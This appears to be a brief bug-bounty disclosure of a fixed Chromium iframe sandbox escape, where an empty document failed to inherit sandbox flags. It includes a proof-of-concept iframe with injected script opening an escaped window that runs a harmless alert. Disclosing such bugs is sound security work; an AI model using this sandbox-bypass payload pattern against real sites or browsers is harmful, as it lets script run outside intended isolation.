 ```yaml
---
title: Sandbox escape (Awarded $2500)
---
```


An empty document did not apply the owner's document sandbox flags,
This meant that with “allow-same-origin” it was possible to open a new window and escape the sandbox.

```html
<iframe
  sandbox="allow-popups allow-same-origin allow-scripts"
  src="//a.terjanq.me/xss.php?html=<iframe name=b></iframe><script>b.open('//c.terjanq.me/xss.php?js=alert()')</script>"></iframe>
```

This was fixed in <https://issues.chromium.org/issues/40057525>
